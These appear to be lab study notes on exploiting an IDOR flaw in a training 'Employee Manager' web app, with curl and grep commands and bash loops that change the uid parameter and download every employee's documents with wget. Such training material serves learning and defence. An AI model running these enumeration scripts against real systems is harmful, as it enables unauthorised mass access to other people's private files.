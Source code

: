 ## Insecure Parameters
* The exercise below is an `Employee Manager` web application that hosts employee records

![](web_attacks_idor_employee_manager.jpg)

* Application assumes user is logged in as employee with user id `uid=1`
* `/documents.php`:

![](web_attacks_idor_documents.jpg)

* On the documents page we see different documents which can be files uploaded by our user

```html
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
```

* Files have predictable naming pattern
	* User `uid` and the month/year
	* `static file IDOR`
* Page is setting the `uid` with a `GET` parameter in the URL as (`documents.php?uid=1`)
* If application uses this `uid` GET parameter as a direct reference to the employee records
	* We may be able to view other employees' documents by simply changing this value
	* If the back-end end of the web application `does` have a proper access control system, we will get some form of `Access Denied`
	* However, given that the web application passes as our `uid` in clear text as a direct reference, this may indicate poor web application design, leading to arbitrary access to employee records
* Try changing the `uid` to `?uid=2`
	* We don't notice any difference in the page output, as we are still getting the same list of documents, and may assume that it still returns our own documents

![](web_attacks_idor_documents.jpg)

* However, `we must be attentive to the page details during any web pentest` and always keep an eye on the source code and page size
* If we look at the linked files, or if we click on them to view them, we will notice that these are indeed different files, which appear to be the documents belonging to the employee with `uid=2`

```html
/documents/Invoice_2_08_2020.pdf
/documents/Report_2_12_2020.pdf
```

## Mass Enumeration
* We can try manually accessing other employee documents with `uid=3`, `uid=4`
* We can either use a tool like `Burp Intruder` or `ZAP Fuzzer` to retrieve all files or write a small bash script to download all files

```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

* We see that each link starts with `<li class='pure-tree_link'>`, so we may `curl` the page and `grep` for this line

```sh
$ curl -s "http://SERVER_IP:PORT/documents.php?uid=1" | grep "<li class='pure-tree_link'>"

<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

* Trim the extra parts and only get the document links in the output
	* Better practice to use Regex pattern that matches strings between `/document` and `.pdf`

```sh
$ curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"

/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf
```

* Simple `for` loop to loop over the `uid` parameter and return the document of all employees, and then use `wget` to download each document link

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.(pdf|txt)"); do
                wget -q $url/$link
        done
done
```

* Modified for post requests

```bash
#!/bin/bash

url="http://178.128.42.34:31087"


for i in {1..20}; do
        for link in $(curl -s -d "uid=$i" "$url/documents.php" | grep -oP "\/documents.*?.(pdf|txt)"); do
                wget -q $url/$link
        done
done
```